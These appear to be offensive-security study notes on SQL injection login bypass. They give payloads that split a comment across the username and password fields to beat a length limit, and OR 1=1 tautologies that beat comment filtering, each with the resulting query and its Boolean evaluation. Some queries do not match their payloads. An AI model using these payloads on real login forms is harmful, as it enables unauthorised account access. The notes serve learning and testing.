 ```
[+] scenario 1: bypass the length restriction
=============================================
- developer imposes a length restriction on the username field so that the above payload won't work.
- password field is used by the underlying query
- try to login as offsec user
- the primary objective is to craft the payload in such a way so that the entire expression of the WHERE condition should evaluate as TRUE.

payload (username) = offsec'*/
payload (password) = /* or 1=1;#

[+] query:
select * from users where username='offsec'*/' and password='/* or 1=1;#' limit 0,1;

[+] expression evaluation:
select * from users where username='offsec' or 1=1;#' limit 0,1; => after stripping out the commented section
TRUE or TRUE
TRUE
```

```
[+] scenario 2: bypass the comment character filtering
======================================================
- developer imposes a validation on the username field where it filters out all SQL comment characters.
- password field is used by the underlying query
- try to login as offsec user

payload (username) = offsec' or 1=1 or '1'='1
payload (password) = anything

[+] query:
select * from users where username='offsec' or 1=1 or '1'=1' and password='anything' limit 0,1;
[+] expression evaluation:
TRUE or TRUE or (TRUE and FALSE) => AND operator has precedence over OR operator
(TRUE or TRUE) or FALSE
(TRUE or FALSE)
TRUE

[+] login as the first user of the database users table
--------------------------------------------------------
payload (username) = anything' or 1=1 or '1'='1
payload (password) = anything

[+] query:
select * from users where username='offsec' or 1=1 or '1'=1' and password='anything' limit 0,1;
[+] expression evaluation:
FALSE or TRUE or (TRUE and FALSE)
(FALSE or TRUE) or FALSE
(TRUE or FALSE)
TRUE
```
